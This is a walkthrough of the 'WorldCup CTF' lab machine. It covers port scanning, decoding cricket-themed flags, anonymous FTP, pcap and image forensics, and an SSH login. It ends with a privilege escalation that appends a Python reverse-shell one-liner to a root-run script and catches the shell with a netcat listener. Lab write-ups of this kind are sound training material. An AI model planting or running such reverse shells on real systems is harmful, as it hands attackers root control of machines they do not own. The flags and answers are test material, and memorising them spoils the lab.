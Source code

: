 ```yaml
---
title: WorldCupCTF
permalink: worldcupctf
---
```

# WorldCup CTF Walkthrough
## Open Ports:
```
nmap -T4 -A $IP
```
* 21 - **ftp**
* 22 - **ssh**
* 80 - **http**

## Enumeration
### Port 80(*http*):
* In source of home page found 2 flags:
	* flag1/1{VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF}
	* flag1/2{8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==}
* On combinig the **TEXT** of both the flags i.e. *flag1/1 & flag1/2*
```
VElNRVRPUkVXSU5ELTIwMDdXT1JMRENVUF8wMDExMDAxMCAwMDExMTAwMSAwMDEwMTExMA==
```
* we get a **Base64** encoded text which on decoding :
	* **TIMETOREWIND-2007WORLDCUP_00110010 00111001 00101110**
* Taking the "2007worldcup.html" adding to the **URL**
* Looking at the **Source** of the new page we get:
	* flag2{uggcf://jjj.lbhghor.pbz/jngpu?i=55wULbbFtZb(00111000 00110101 00110000)}
* The **TEXT** of flag2 looks like encoded with *ROT13* so on decoding we get:
	* https://www.youtube.com/watch?v=55jHYooSgMo
* On directory bruteforcing we find:
	* 2 main files are found **2007.exe & 2007.txt** 
	* For *2007.exe* first we need to change the extension to *.pdf*
	* Using peepdf tool we can get our flag.
	```
	python peedpf.py -fil 2007.pdf
	extract js > flag3.pdf
	cat flag.pdf
	```
	* Inside the flag.pdf file we get : flag3{my world ashes to ashes good time bad time - 00110010 01010011 00100000}
	* for txt file **"2007.txt"** inside directory y/u/v/r/a/j
	 * It contains hints to some file named **712** which has the communication between the players.
* Now adding /712.pcapng to the **URL**
	* a *pcap* file is downloaded.
* Open the **712.pcapng** file in **WireShark**
	* filter the http protocol
	* follow HTTP stream and then download the **dhoni.jpg** form the panel.
* Look at the *metadata* of the jpg file
```
 exiftool dhoni.jpg
```
* We get the first  half of the flag : flag4{cGFzc3dvcmRfY29uc2lzdF9vZl90d29fd29yZHNfc2Vjb25kd29yZ
* Now looking at the *hexvalue* of the file
```
hexeditor dhoni.jpg
```
* At the bottom we get the second half of the flag: F9pc19NU0RIT05JX2ZpbmQtMXN0PyAwMDExMDAxMSAwMDExMDAwMSAwMDEwMTExMA==}


### Port 21(*FTP*)
* found Anonymoous login in **FTP**
	* found *zip* file name  **treasure.zip** *(passwd protected)*(
			* Using *flag3 & on decoding(Base64) flag4* we the hints for the zip file's passowrd : **andrewflintoffmsdhoni**
	* *flag.txt.txt* is extracted 
	* This has the text encoded on **BrainFuck**
	* On decoding we get flag5{seventh bowler to take 500 wickets in Test cricket knows about ...ssssssssshhhh 00110000 00110010 00110111 }

### Port 22(*SSH*)
* Every flag has some binary text at its end.
* On combinig all the binary together 
```
00110010 00111001 00101110 00111000 00110101 00110000 00110010 01010011 00100000 00110011 00110001 00101110 00110000 00110010 00110111
```
* Decoding the binary to ASCII we get some co-ordinates : **----------**
	* Search in google for the location 
		* we find the stadium **"kingsmead"** (passwd)
* Using the hint form **flag5** *{seventh bowler to take 500 wickets in Test cricket knows about}* 
	* On google serach we find **stuartbroad** (username)
* login into ssh
```
ssh stuartbroad@$IP
```
* Inside ssh we find a hidden file named *.helloWorld.sh* 
	* Inside the bash script we find a command *whoami* executed and written to /Desktop/Users.txt
* On read the Users.txt file
```
cat Desktop/test.txt
```
* We see root by which we understand that the file is being execuated by **root**
* Adding a one liner reverse shell to the script
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Open a netcat session on your host device.
```
nc -lvnp 1234
```
* Wait for a minute.....
* Now in the netcat session you are the root user which has the finalfalg:

#### flag6{A trophy carries dust.Memories last forever}
